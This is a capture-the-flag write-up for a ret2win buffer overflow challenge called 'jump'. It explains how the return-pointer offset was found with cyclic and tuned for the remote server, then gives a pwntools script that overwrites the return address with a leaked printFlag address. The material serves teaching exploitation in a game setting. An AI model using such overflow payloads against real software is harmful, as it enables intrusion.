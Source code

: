 ### jump

This challenge was a standard ret2win type buffer overflow challenge. We start by observing that the binary leaks the memory address of `printFlag` and also that the function is not called anywhere in the program. In such cases the goal is to call that function ourself, typically by exploiting a buffer overflow.

There are a few ways to determine if the binary is vulnerable to a buffer overflow but my personal favourite is to run the binary with `gdb` and then use `cyclic` to generate a big patterned input we can then use to calculate the offset to the return pointer. In this case we produced a crash with `cyclic 100` and the offset was around `cyclic_find(b'agaa') - 5`. We can then chain this with the leaked address of `printFlag` to swap out the return pointer with its address causing the binary to jump there when it returns.

This worked fine locally but failed against the remote server so I fuzzed the offset until the payload popped on `cyclic_find(b'agaa') - 1`.

_If you want to read more about basic overflows I also wrote this guide, [Basic Stack Based Overflows](https://cybernetic.coffee/blog/basic-stack-based-overflows/)_

```python
HOST = 'ctfo.2pmc.net:10003'
""" hack the program """
binary = f'./{PATH}/{BINARY}'
proc = process(binary)
rop = ROP(binary)
elf = ELF(binary, False)


## get da banner
log.info('Receiving banner ...')
proc.recvuntil('printFlag ')
print_flag_addr = int(proc.recvuntil('.', drop=True), 16)

log.success(f'printFlag leak: {hex(print_flag_addr)}')

# Worked locally
# offset = cyclic_find(b'agaa') - 5

# offset for remote
offset = cyclic_find(b'agaa') - 1
log.info(f'Offset: {offset}')

payload = flat({
    offset: p64(print_flag_addr)
})

proc.sendlineafter(b'name: ', payload)


# shellit
proc.interactive()

```
